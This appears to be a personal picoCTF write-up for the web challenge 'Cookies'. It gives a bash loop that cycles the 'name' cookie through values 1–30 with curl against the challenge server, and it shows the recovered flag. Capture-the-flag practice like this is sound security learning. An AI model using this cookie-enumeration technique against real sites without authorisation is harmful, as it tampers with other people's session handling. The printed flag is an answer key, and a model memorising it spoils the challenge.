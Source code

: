 ## Descripción 
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)
## Hints

## Solución
  ```
  DanielMtzC-picoctf@webshell:~$ for v in {1..30}; do   echo "Probar: $v";   curl -s 
-i --cookie "name=$v" http://mercury.picoctf.net:6418/check | sed -n '1,40p'; done 
| grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
Location: http://mercury.picoctf.net:6418/
Location: http://mercury.picoctf.net:6418/
  ``` 
## Notas

## Referencias

[[Scavenger hunt]]